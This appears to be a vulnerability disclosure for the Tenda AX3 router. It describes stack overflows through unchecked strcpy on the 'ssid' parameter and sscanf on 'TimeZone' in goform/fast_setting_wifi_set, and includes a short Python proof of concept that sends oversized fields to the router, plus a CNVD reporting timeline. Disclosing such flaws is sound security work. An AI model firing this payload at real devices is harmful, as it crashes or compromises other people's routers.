


## Tenda Router AX3 Vulnerability

There is a vulnerability lies in page goform/fast_setting_wifi_set,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)). 

## Description

Vulnerability function  form_fast_setting_wifi_set

 

The v5 variable is obtained directly from the http request parameter ssid. Then v5 will be assigned to v6.

This function uses strcpy to copy the variable v6 to the stack variable par without any sercuity check.

Attacker can construct a long ssid parameter in the http request,which causes stack overflow.



 

The v20 variable is directly retrieved from the http request parameter TimeZone.

Then v20 will be splice to stack by function sscanf without any security check,which causes stack overflow.

Combining the above two vulnerabilities can cause arbitrary code execution.

## POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/fast_setting_wifi_set"
ssid = "a" * 0x1000
timeZone = "b"*0x1000
r = requests.post(url, data={'ssid': ssid, 'timeZone': timeZone})
print(r.content)
```

## Timeline

- 2021-12-31 report to CNVD & CVE
- 2022-01-18 CNVD ID assigned : CNVD-2022-04451
